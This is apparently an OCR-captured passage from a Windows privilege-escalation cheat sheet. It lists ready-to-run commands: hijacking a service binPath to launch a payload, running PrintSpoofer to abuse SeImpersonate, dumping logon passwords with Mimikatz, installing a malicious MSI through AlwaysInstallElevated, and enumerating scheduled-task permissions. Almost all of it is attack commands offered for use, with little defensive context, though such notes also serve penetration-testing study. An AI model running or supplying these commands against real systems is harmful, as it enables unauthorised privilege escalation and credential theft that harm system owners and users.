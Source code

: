     sc config <service_name> binPath= "C:\tmp\payload.exe"
    sc start <service_name>
    ```

---

#### **3. Credential & Token Abuse**

* **Impersonation Privileges (SeImpersonate):**
    ```powershell
    # Check privilege
    whoami /priv
    # Exploit with PrintSpoofer
    PrintSpoofer.exe -i -c cmd.exe
    ```
* **Stored Credentials & Secrets:**
    ```powershell
    cmdkey /list
    # Dump from memory with Mimikatz (requires Admin)
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

---

#### **4. Registry Misconfigurations**

* **AlwaysInstallElevated:**
    ```powershell
    # Check if both keys are set to 1
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    # Exploit by running a malicious MSI
    msiexec /quiet /qn /i C:\tmp\malicious.msi
    ```

---

#### **5. File & Folder Permission Issues**

* **Modifiable Scheduled Tasks:**
    ```powershell
    # List tasks
    schtasks /query /fo LIST /v
    # Check permissions on the executed file
    icacls "C:\Path\To\Task\Executable.exe"
    ```

---